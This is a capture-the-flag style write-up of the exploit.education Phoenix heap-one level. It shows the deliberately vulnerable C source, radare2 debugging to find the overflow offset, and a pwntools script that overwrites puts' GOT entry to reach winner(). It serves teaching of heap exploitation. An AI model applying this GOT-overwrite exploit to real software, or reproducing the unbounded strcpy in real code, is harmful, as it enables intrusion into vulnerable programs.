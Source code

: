 ```yaml
---
description: 'http://exploit.education/phoenix/heap-one/'
---
```


# heap1

## Source

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

struct heapStructure {
  int priority;
  char *name;
};

int main(int argc, char **argv) {
  struct heapStructure *i1, *i2;

  i1 = malloc(sizeof(struct heapStructure));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct heapStructure));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}

void winner() {
  printf(
      "Congratulations, you've completed this level @ %ld seconds past the "
      "Epoch\n",
      time(NULL));
}
```

## Analysis

This program:

* Allocates a chunk on the heap for the `heapStructure`
* Allocates another chunk on the heap for the `name` of that `heapStructure`
* Repeats the process with another `heapStructure`
* Copies the two command-line arguments to the `name` variables of the `heapStructures`
* Prints something

### Regular Execution

Let's break on and after the first `strcpy`.

```text
$ r2 -d -A heap1 AAAA BBBB
```

![](../../../.gitbook/assets/image%20%287%29.png)

As we expected, we have two pairs of `heapStructure` and `name` chunks. We know the `strcpy` will be copying into wherever `name` points, so let's read the contents of the first `heapStructure`. Maybe this will give us a clue.

![](../../../.gitbook/assets/image%20%288%29.png)

Look! The `name` pointer points to the `name` chunk! You can see the value `0x602030` being stored.

This isn't particularly a revelation in itself - after all, we **knew** there was a pointer in the chunk. But now we're certain, and we can _definitely_ overwrite this pointer due to the lack of bounds checking. And because we can also control the value being **written**, this essentially gives us an arbitrary write!

And where better to target than the GOT?

## Exploitation

The plan, therefore, becomes:

* Pad until the location of the pointer
* Overwrite the pointer with the GOT address of a function
* Set the second parameter to the address of `winner`
* Next time the function is called, it will call `winner` 

But what function should we overwrite? The only function called after the `strcpy` is `printf`, according to the source code. And if we overwrite `printf` with `winner` it'll just recursively call itself forever.

Luckily, compilers like `gcc` compile `printf` as `puts` if there are no parameters - we can see this with radare2:

```text
$ r2 -d -A heap1
$ s main; pdf
[...]
0x004006e6      e8f5fdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
0x004006eb      bfa8074000     mov edi, str.and_that_s_a_wrap_folks ; 0x4007a8 ; "and that's a wrap folks!"
0x004006f0      e8fbfdffff     call sym.imp.puts
```

So we can simply overwrite the GOT address of `puts` with `winner`. All we need to find now is the padding until the pointer and then we're good to go.

```text
$ ragg2 -P 200 -r
AABAA...
```

```text
$ r2 -d -A heap1 AAABAA... 0000
```

Break on and after the `strcpy` again and analyse the second chunk's `name` pointer.

![](../../../.gitbook/assets/image%20%286%29.png)

The pointer is originally at `0x8d9050`; once the strcpy occurs, the value there is `0x41415041414f4141`.

```text
[0x004006cd]> wopO 0x41415041414f4141
40
```

The offset is **40**.

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./heap1', checksec=False)

param1 = (b'A' * 40 + p64(elf.got['puts'])).replace(b'\x00', b'')
param2 = p64(elf.sym['winner']).replace(b'\x00', b'')

p = elf.process(argv=[param1, param2])

print(p.clean().decode('latin-1'))
```

Again, null bytes aren't allowed in parameters so you have to remove them.


